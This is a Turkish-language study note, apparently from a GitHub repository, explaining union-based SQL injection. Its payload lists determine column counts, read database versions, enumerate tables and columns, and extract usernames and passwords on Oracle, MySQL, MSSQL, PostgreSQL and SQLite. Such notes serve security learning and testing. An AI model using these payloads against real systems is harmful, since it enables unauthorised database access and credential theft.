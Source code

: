 # Union-Based SQL Injection

### Tanım

UNION SQL Injection, bir SQL sorgusuna eklenen `UNION` komutu ile birleştirilen başka bir sorgunun çıktısını alır. Bu şekilde saldırgan, veritabanındaki hassas verileri öğrenebilir veya ek komutlar çalıştırabilir.

#### Örnek Sorgu:
- Normal SQL sorgusu:
    ```sql
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1;
    ```

- Enjeksiyonlu Sorgu:
    ```sql
    SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL, NULL, NULL--;
    ```
    - **UNION SELECT NULL, NULL, NULL** komutu, veritabanından dönen sonuç sayısının aynı olması için sorguya eklenir.
    - **--** SQL’de yorum satırı başlatır ve geri kalan sorguyu devre dışı bırakır.

#### ' ORDER BY 3--' - "ORDER BY" İfadesiyle Sıralama

- **' ORDER BY 3--** → Bu komutla, sorgu sonuçları 3. sütuna göre sıralanır. Eğer sorgu daha fazla sütun içeriyorsa, bu tür bir enjeksiyonla sütun sayısı hakkında bilgi edinilebilir.
  
- **' ORDER BY 1--'** → Bu komut ise birinci sütuna göre sıralama yapar.

### Oracle Veritabanı için UNION Injection
Oracle veritabanlarında UNION kullanarak bazı sistem bilgilerini almak mümkündür:

1. **' ORDER BY 1--** → Sorgu 1. sütuna göre sıralanır.
2. **' UNION SELECT 'abc', 'def' FROM dual--** → `dual` tablosu, Oracle veritabanlarında mevcut olup sabit bir kayıt içerir. Bu tür bir sorguyla, Oracle veritabanında test amaçlı sabit veriler döndürülebilir.
3. **' UNION SELECT BANNER, NULL FROM v$version--** → `v$version` tablosu, Oracle'ın versiyon bilgilerini içerir ve bu şekilde veritabanı versiyonu öğrenilebilir.
4. **' UNION SELECT table_name, NULL FROM all_tables--** → Bu sorgu, Oracle veritabanındaki tüm tablo adlarını alır.
5. **' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_ABCDEF'--** → `USERS_ABCDEF` adlı tablonun sütunlarını sorgular.
6. **' UNION SELECT USERNAME_ABCDEF, PASSWORD_ABCDEF FROM USERS_ABCDEF--** → `USERS_ABCDEF` tablosundaki kullanıcı adı ve şifre bilgilerini alır.

### MySQL, MSSQL, PostgreSQL ve SQLite için UNION Injection

Farklı veritabanı sistemleri için benzer şekilde UNION SQL Injection kullanılabilir:

1. **' ORDER BY 1--** → Sorgu 1. sütuna göre sıralanır.
2. **' UNION SELECT 'abc', 'def'--** → Bu tür bir komutla test amacıyla sabit veriler döndürülebilir.
3. **' UNION SELECT @@version, NULL--** → MySQL gibi veritabanlarında versiyon bilgisini öğrenmek için kullanılabilir.
4. **' UNION SELECT table_name, NULL FROM information_schema.tables--** → Veritabanındaki tüm tablo isimlerini almak için kullanılır.
5. **' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--** → Belirtilen tablonun sütun adlarını almak için kullanılır.
6. **' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--** → `users_abcdef` tablosundaki kullanıcı adı ve şifre bilgilerini alır.

### Diğer Kullanım Örnekleri:

- **' UNION SELECT table_name, NULL FROM all_tables--** → Oracle'da tüm tablo isimlerini listelemek için kullanılabilir.
- **' UNION SELECT NULL, NULL, NULL--** → Sorguya hiçbir veri eklenmemesini sağlayarak veri türünü test eder.
- **' UNION SELECT 'abc', 'def'--** → Sabit veriler döndürür.
- **' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS'--** → `USERS` tablosundaki sütun adlarını almak için kullanılır.
- **' UNION SELECT username, password FROM users--** → `users` tablosundaki kullanıcı adı ve şifre bilgilerini alır.
- **' UNION SELECT NULL, username || '~' || password FROM users--** → `users` tablosundaki kullanıcı adı ve şifreyi birleştirerek alır.
